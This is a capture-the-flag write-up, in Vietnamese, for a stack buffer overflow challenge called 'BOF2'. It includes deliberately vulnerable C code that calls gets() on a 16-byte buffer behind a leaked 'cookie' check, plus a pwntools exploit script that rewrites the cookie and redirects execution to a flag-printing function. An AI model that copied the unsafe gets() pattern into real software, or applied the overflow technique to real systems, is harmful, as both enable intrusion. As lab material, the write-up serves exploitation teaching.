

# BOF2

## Source code

```c
int cookie;

void cat_flag()
{
system("cat flag");
}

void vun()
{
int i = cookie;
char buff[16];
gets(&buff);    // lỗi buffer overflow ở đây
printf("%s", buff);
if (i != cookie)
{
printf("DONT SMASH THE STACK PLZ!\n");
exit(0);
}
}

int main ()
{
struct timespec t;
clock_gettime(CLOCK_MONOTONIC_RAW, &t);
srand(t.tv_nsec);
cookie = rand() % 0xff;
printf("%x\n", cookie);
vun();
return 0;
}
```

bài này bị dính lỗi buffer overflow, do array `buff[16]` chỉ có size là 16byte, tuy nhiên hàm `gets` lại đọc input có độ dài tối đa tùy ý. Chỉ dừng lại khi gặp kí tự `\n` hoặc `EOF`. Do đó, ta có thể nhập vào 1 chuỗi có độ dài bất kì lớn hơn 16byte => buffer overflow.

## Solution

Sử dụng thư viện pwntools để tương tác với process. Đọc stdout của process để lấy cookie được in ra. Sau đó, gửi payload để lấy flag

```python
from pwn import *
context.log_level = 'debug'
p = process('./Bufferoverflow-homemade-cookie-v2')
elf = ELF('./Bufferoverflow-homemade-cookie-v2')
canary = int(p.recvline(False),16)
log.info('canary: ' + hex(canary))

payload = b'a' * 16 + p32(canary)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(elf.sym['cat_flag'])

p.sendline(payload)
```

